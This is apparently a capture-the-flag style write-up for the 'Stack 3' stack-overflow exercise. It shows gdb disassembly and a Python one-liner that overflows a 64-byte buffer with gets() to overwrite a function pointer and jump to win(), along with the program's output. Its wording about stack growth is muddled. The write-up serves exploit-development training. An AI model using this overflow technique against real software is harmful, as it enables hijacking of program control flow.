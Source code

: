 # Stack 3
## Overview
    1. We need to redirect the execution flow to execute the uncalled 
       function win().
    2. The esp(current stack pointer) grows upward when allocating memory 
       and the higher the esp goes, it points to smaller address number.
       Thus, we must first overwrite the buffer[64] and then overwrite the
       fp to the address of win function.
    3. The buffer[64] gets its value through standard I/O.
    
## Process
    $ gdb -q ./stack3
    (gdb) disas main
        Dump of assembler code for function main:
            0x08048438 <+0>:     push   %ebp
            0x08048439 <+1>:     mov    %esp,%ebp
            0x0804843b <+3>:     and    $0xfffffff0,%esp
            0x0804843e <+6>:     sub    $0x60,%esp
            0x08048441 <+9>:     movl   $0x0,0x5c(%esp)
            0x08048449 <+17>:    lea    0x1c(%esp),%eax
            0x0804844d <+21>:    mov    %eax,(%esp)
            0x08048450 <+24>:    call   0x8048330 <gets@plt>
            0x08048455 <+29>:    cmpl   $0x0,0x5c(%esp)
            0x0804845a <+34>:    je     0x8048477 <main+63>
            0x0804845c <+36>:    mov    $0x8048560,%eax
            0x08048461 <+41>:    mov    0x5c(%esp),%edx
            0x08048465 <+45>:    mov    %edx,0x4(%esp)
            0x08048469 <+49>:    mov    %eax,(%esp)
            0x0804846c <+52>:    call   0x8048350 <printf@plt>
            0x08048471 <+57>:    mov    0x5c(%esp),%eax
            0x08048475 <+61>:    call   *%eax
            0x08048477 <+63>:    leave
            0x08048478 <+64>:    ret
        End of assembler dump.
    (gdb) disas win
        Dump of assembler code for function win:
            0x08048424 <+0>:     push   %ebp
            0x08048425 <+1>:     mov    %esp,%ebp
            0x08048427 <+3>:     sub    $0x18,%esp
            0x0804842a <+6>:     movl   $0x8048540,(%esp)
            0x08048431 <+13>:    call   0x8048360 <puts@plt>
            0x08048436 <+18>:    leave
            0x08048437 <+19>:    ret
        End of assembler dump.
## Method
    It's showed that the address of win function is at 0x08048424.
    We must input a string which is longer than buffer size (64 bytes) 
    to overwrite buffer[64] and modify the value of fp to 0x08048424.
    
    -> Use 64 As + little endian of 0x08048424 (\x24\x84\x04\x08).
## Answer
    $ python -c "print 'A'*64+'\x24\x84\x04\x08'" | ./stack3
    calling function pointer, jumping to 0x08048424
    code flow successfully changed
